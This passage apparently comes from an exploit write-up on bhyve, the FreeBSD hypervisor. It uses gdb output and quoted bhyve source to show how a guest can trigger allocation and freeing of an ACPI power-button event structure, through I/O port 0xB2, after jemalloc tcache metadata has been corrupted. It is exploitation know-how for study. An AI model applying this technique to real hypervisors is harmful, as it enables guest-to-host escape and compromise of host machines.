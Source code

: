 ----[ 3.2 - ACPI shutdown and event handling

Next task is to find a feature which allows the guest to trigger an
allocation or deallocation after corrupting the tcache metadata. Inspecting
each of the bins, an interesting allocation was found in tbins[4]:

(gdb) print ((struct tcache_s *)0x801b6f000)->tbins[4]
$2 = &#123;tstats = &#123;nrequests = 1&#125;, low_water = -1, lg_fill_div = 1, ncached =
63, avail = 0x801b71248&#125;

(gdb) x/gx 0x801b71248-64*8
0x801b71048:0x0000000813c10000

(gdb) x/5gx 0x0000000813c10000
0x813c10000:0x00000000004303800x000000000000000f
0x813c10010:0x00000000000000030x0000000801a15080
0x813c10020:0x0000000100000000

(gdb) x/i 0x0000000000430380
   0x430380 <power_button_handler>:push   %rbp

 (gdb) print *(struct mevent *)0x0000000813c10000
$3 = &#123;me_func = 0x430380 <power_button_handler>, me_fd = 15, me_timid = 0,
me_type = EVF_SIGNAL, me_param = 0x801a15080, me_cq = 0, me_state = 1,
me_closefd = 0, me_list = &#123;
    le_next = 0x801a15100, le_prev = 0x801a15430&#125;&#125;

bhyve emulates access to I/O port 0xB2 (Advanced Power Management Control
port) to enable and disable ACPI virtual power button. A handler for
SIGTERM signal is registered through FreeBSD's kqueue mechanism [7]. 

'mevent' is a micro event library based on kqueue for bhyve found in
mevent.c. The library exposes a set of API for registering and modifying
events. The main 'mevent' thread handles all the events. The
mevent_dispatch() function called from main() dispatches to the respective
event handlers when an event is reported. The two notable API's of interest
for the exploitation of this bug are mevent_add() and mevent_delete().
Let's see how the 0xB2 I/O port handler in pm.c uses the mevent library:

static int
smi_cmd_handler(struct vmctx *ctx, int vcpu, int in, int port, int bytes,
    uint32_t *eax, void *arg)
&#123;
        . . .
        switch (*eax) &#123;
        case BHYVE_ACPI_ENABLE:
                . . .                
                if (power_button == NULL) &#123;
                        power_button = mevent_add(SIGTERM, EVF_SIGNAL,
                            power_button_handler, ctx);
                        old_power_handler = signal(SIGTERM, SIG_IGN);
                &#125;
                break;
        case BHYVE_ACPI_DISABLE:
                . . .
                if (power_button != NULL) &#123;
                        mevent_delete(power_button);
                        power_button = NULL;
                        signal(SIGTERM, old_power_handler);
                &#125;
                break;
        &#125;
        . . .
&#125;

